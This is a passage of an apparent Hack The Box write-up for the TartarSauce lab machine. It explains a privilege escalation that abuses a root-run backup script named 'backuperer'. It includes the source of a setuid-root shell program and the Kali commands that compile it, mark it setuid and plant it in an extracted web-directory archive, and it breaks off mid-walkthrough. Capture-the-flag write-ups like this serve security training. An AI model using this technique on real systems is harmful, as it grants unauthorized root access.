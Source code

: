 # Privilege Escalation - 2

## Root - Via exploiting backuperer
1. View system architecture
	```
	www-data@TartarSauce:/$ uname -a
	Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux
	```
	- `x86`
2. How do we exploit `backuperer`?
	- This is similar to NFS `no_root_squash` exploit. Whereby the permission of a file when created on our own machine stays when access in the victim's machine.
	- The directory `/var/tmp/check` is created to extract the archive created from (`/var/www/html`) into it, and comparing it to `tartarsauce.htb` web directory to see if there are any changes.
	- If there is any change in content, `/var/tmp/check` will not be deleted, and we can execute the `setuid` file
3. Exploiting `backuperer`
	1. Create setuid file 
		- setuid file
			```
			// cat setuid.c
			#include <unistd.h>
			
			int main()
			{
				setuid(0);
				setgid(0);
				execl("/bin/bash", "bash", (char *)NULL);
				return 0;
			}
			
			// find . -exec './setuid' \;
			```
		- Compile on kali
			```
			┌──(root💀kali)-[~/htb/tartarsauce/10.10.10.88/exploit]
			└─# gcc -m32 -o setuid exploit.c
			```
		- Set permissions 
			```
			┌──(root💀kali)-[~/htb/tartarsauce/10.10.10.88/exploit]
			└─# chmod 4755 setuid 
			┌──(root💀kali)-[~/htb/tartarsauce/10.10.10.88/exploit]
			└─# ls -la setuid 
			-rwsr-xr-x 1 root root 15296 Sep 10 00:19 setuid
			```
	2. Create an archive of `/var/www/html`  on `tartarsauce.htb`, transfer it to `kali`
	3. On `kali`, extract it, copy `setuid` file into the extracted directory `<your directory>/var/www/html/`
		```
		┌──(root💀kali)-[~/htb/tartarsauce/10.10.10.88/exploit]
		└─# cp setuid web_dir/var/www/html/
		